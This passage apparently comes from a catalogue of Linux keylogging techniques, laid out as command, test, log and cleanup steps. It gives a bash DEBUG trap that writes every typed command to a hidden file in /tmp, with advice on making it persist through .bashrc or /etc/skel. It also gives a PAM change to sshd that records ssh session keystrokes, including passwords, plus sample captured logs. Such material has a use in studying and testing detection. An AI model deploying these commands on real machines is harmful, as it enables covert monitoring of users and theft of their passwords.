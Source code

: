 To gain persistence the command could be added to the users .bashrc or 
.bash_aliases or the systems default .bashrc in /etc/skel/ 

Command:

    trap 'echo "$(date +"%d/%m/%y %H:%M:%S.%s") $USER $BASH_COMMAND" >> /tmp/.keyboard.log' DEBUG

Test:

    echo "Hello World!"

    if [ "$(grep 'Hello World!' /tmp/.keyboard.log)" ]; \
    then echo "FOUND!"; \
    else echo NOT FOUND!; \
    fi 

Log: tail -f /tmp/.keyboard.log

    10/07/21 11:06:18.1625911578 biot echo "Hello World!"

Cleanup:

    rm /tmp/.keyboard.log

<br>

### 3. SSHD PAM keylogger

Linux PAM (Pluggable Authentication Modules) is used in sshd authentication. The linux audit tool auditd can use the pam_tty_audit module to enable auditing of TTY input and capture all keystrokes in an ssh session and place them in the /var/log/audit/audit.log file after the session closes.

Command:

    cp -v /etc/pam.d/sshd /tmp/

    echo "session required pam_tty_audit.so disable=* enable=* open_only log_passwd" >> /etc/pam.d/sshd

    systemctl restart sshd
    systemctl restart auditd

Test:

    ssh ubuntu@localhost 
    echo "ubuntu@localhost"
    sudo su
    echo "root@localhost"
    exit
    exit

Log: aureport --tty

    57. 07/12/21 16:37:52 681 1000 ? 26 sudo "ubuntu"
    58. 07/12/21 16:38:08 691 1000 ? 26 bash "echo \"root@localhost\"",<ret>,"exit",<ret>
    59. 07/12/21 16:38:08 696 1000 ? 26 sudo <nl>
    60. 07/12/21 16:38:09 697 1000 ? 26 bash "echo \"ubuntu@localhost\"",<ret>,"sudo su",<ret>,"exit",<ret>

Log: ausearch -i 
